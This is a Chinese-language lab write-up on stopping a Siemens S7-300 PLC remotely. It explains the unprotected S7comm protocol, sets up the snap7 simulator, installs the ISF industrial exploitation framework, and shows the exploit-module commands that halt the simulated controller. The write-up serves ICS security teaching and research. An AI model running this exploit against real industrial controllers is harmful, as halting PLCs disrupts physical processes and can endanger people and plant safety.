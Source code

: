 # S7-300 启停实验

<p align="center">
    <img src="../../../../assets/img/banner/s7comm.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

# 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/1.png)

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/2.png)

首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/3.png)

然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/4.png)

此时服务端出现请求信息,表示连接成功

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/5.png)

---

# 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
wget https://bootstrap.pypa.io/get-pip.py
python2 get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/6.png)

这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/7.png)

---

**Source & Reference**
- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)
